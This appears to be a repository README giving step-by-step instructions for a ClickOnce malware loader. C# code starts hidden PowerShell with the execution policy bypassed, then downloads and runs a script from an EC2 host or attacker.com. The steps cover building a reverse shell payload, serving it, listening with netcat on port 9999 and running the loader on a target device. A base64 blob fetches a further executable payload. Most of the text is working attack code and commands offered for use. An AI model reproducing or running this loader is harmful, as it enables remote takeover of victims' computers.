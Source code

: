 ## 1. Create lscript.application

1. Go to Visual Studio Community edition to create the loader.
2. Create a C# Console application for Windows
3. In lscript.cs, write the following code ->

```
using System.Diagnostics;

static class Program {
    [System.STAThread]
    static void Main() {
        string encoded = "<Base64_Download_Command>";
        string psArgs = $"-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -EncodedCommand {encoded}";
        ProcessStartInfo psi = new ProcessStartInfo("powershell.exe", psArgs) {
            CreateNoWindow = true,
            UseShellExecute = false
        };
        Process.Start(psi);
    }
}
```

4. Change the Uri to the EC2 instance with the **perfect.ps1** script. Run the below command in Mac/Linux,

```
echo "Invoke-WebRequest -Uri 'http://ec2-3-253-172-6.eu-west-1.compute.amazonaws.com:80/perfect.ps1' -OutFile 'perfect.ps1'; powershell -ExecutionPolicy Bypass -File 'perfect.ps1'" | iconv -t UTF-16LE | base64 -w 0
```
5. Replace the above Base64 output to <Base64_Download_Command> on the lscript.cs file.
6. You have to host the perfect.ps1, go to https://www.revshells.com, change the reverse shell IP to the public IP and port as 9999.
7. Create a Powershell base64 payload, copy and save it in the EC2 instance.
8. Open port 9999 from the security group for the public IP.

## 2. Publishing the exploit

1. Go to Visual Studio on the Windows machine.
2. Right click, choose **Properties**, then **Security**, Enable **ClickOnce Security Settings, This is a full trust application**.
3. This application is available offline and startable from Start Menu, click **Publish**.

## 3. Exploitation

1. Run **sudo python -m http.server 9999**
2. Go to your EC2 Instance, make sure there is an inbound rule entry in the security groups for port 9999 for only the public IP of the target device that will be used.
3. Start the listener with ```nc -lnvp 9999```
4. Execute the _lscript.application_ file on the target device.
5. Check the listener.


```
# Unencoded lscript.cs file

using System.Diagnostics;

static class Program {
    [System.STAThread] // (Use STA if a GUI/WinForms app; not needed for pure console)
    static void Main() {
        // Prepare PowerShell command (e.g., reverse shell or arbitrary script)
        string psArgs = "-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass "
                      + "-Command \"Invoke-WebRequest -Uri 'http://attacker.com/payload.ps1' -OutFile 'payload.ps1'; "
                      + "powershell -ExecutionPolicy Bypass -File 'payload.ps1'\"";
        // Configure process start info to launch PowerShell
        ProcessStartInfo psi = new ProcessStartInfo("powershell.exe", psArgs) {
            CreateNoWindow = true,   // no new window for PowerShell
            UseShellExecute = false  // required for CreateNoWindow
        };
        Process.Start(psi);
    }
}
```
```
ZWNobyAiSW52b2tlLVdlYlJlcXVlc3QgLVVyaSAnaHR0cDovL2VjMi01NC0yNDYtMjM1LTc0LmV1LXdlc3QtMS5jb21wdXRlLmFtYXpvbmF3cy5jb206ODAvcnVzdC1wYXlsb2FkLmV4ZScgLU91dEZpbGUgJ3J1c3QtcGF5bG9hZC5leGUnOyIgfCBpY29udiAtdCBVVEYtMTZMRSB8IGJhc2U2NCAtdyAw```
